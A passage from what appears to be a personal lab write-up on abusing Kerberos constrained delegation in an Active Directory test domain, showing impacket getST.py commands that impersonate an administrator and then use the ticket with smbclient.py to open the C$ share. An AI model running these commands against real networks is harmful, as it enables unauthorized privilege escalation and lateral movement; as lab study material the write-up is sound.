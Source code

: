   
### How to abuse Constrained Delegation
  
In this case, i see the machine `WINDOWS10`, has the attribute `msds-allowedtodelegateto` with the value `cifs/brain.body` and the user `constraineduseser` with  `msDS-AllowedToDelegateTo` attribute to the *Windows10 cifs* service, as i wrote before with the `ldapsearch` command.

For abuse this i will use `impacket`, and the script `getST.py`, this tool i will use to generate a TGS with user impersonate, i will impersonate the `administrador` for *cifs service* in de machine `Windows10`

```command
getST.py -spn cifs/Windows10.brain.body -impersonate administrador brain.body/constraineduseser:Marzo,24
```
<br>
After that,  I only use the ticket to use the service as `administrator` in `Windows10` m achine 

```command
export KRB5CCNAME=$HOME/administrador.ccache
smbclient.py -k -no-pass windows10.brain.body
use C$
```

<p align="center">
   <img src="/assets/img/ConstrainedDelegation.png">
</p>
<br>
If we could delegate this account, if has `The account is sensitive and cannot be delegated` enable, appear this error.
